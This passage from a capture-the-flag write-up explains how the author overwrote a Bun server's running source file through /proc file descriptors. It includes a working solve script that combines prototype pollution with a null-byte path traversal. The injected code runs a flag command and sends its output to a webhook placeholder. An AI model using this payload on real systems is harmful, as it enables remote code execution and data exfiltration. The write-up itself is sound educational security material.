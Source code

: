 Bash always opens its script with fd 255, so if we could write to `/proc/1/fd/255`, we'd be able to overwrite the `start.sh` script from earlier:

```sh
#!/bin/bash

# cd /app;
# Loop in case the app crashes for some reason ¯\_(ツ)_/¯
while :; do
    for i in $(seq 1 5); do
        python -c 'print("echo pwned\n" * 10)' > "/proc/$$/fd/255"
        sleep 1;
    done
    # Okay for some reason something really goofed up...
    # Restoring from backup
    echo cp # cp -r /home/bun/backup/app/* /app;
done
```

Unfortunately, it turns out that for some reason Bun can't write to Bash's fds, despite the fact that both processes are running under the same user. StackOverflow lied to me!

But if I can't trust StackOverflow, surely I can trust the one and only Aplet123! Aplet tells me though that you can still write to a "read-only" fd, since it's just a symlink. So what if we try writing to `/proc/self/fd/3` (`index.ts`) anyways?

```ts
// solve.ts

const remote = "http://localhost:1337"

const example = (await (await fetch(`${remote}/examples`)).json()).examples[0]

const payload0 = structuredClone(example)
payload0.data = {
    "sus": `await fetch("{arc_secret_flag_webhook}"+(await (await import("bun"))["$"]\`/bin/getflag\`.text()))`,
    "signed.__proto__": { "outputPrefix": "../../proc/self/fd/3\0" },
    ...payload0.data,
}
await fetch(`${remote}/convert-to-yaml`, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(payload0)
})
```

```
arc@blroth:~/ctfs/prisoner-process$ deno run solve.ts 
arc@blroth:~/ctfs/prisoner-process$ docker exec -it prisoner_processor /bin/bash
bun@1758f8776225:/app$ cat src/index.ts 
sus: await fetch("{arc_secret_flag_webhook}"+(await (await
  import("bun"))["$"]`/bin/getflag`.text()))
signed.__proto__:
  outputPrefix: "../../proc/self/fd/3\0"
signed.name: jeff
signed.animalType: emu
signed.age: 12
signed.crime: assault
signed.description: clotheslined someone with their neck
signed.start: 2024-03-02T10:45:01Z
signed.release: 2054-03-02T10:45:01Z
```
